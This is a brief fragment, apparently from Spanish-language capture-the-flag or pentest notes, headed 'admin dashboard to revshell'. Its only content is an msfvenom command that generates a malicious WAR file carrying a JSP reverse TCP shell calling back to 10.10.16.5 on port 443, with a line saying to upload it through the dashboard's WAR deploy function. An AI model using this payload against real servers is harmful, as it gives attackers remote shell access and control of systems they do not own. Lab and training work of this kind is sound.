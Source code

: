 
### ADMIN DASHBOARD A REVSHELL
```shell
#CREAR UN ARCHIVO WAR MALICIOSO
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.5 LPORT=443 -f war -o evil.war

Lo subimos a archivo war desplegar.
```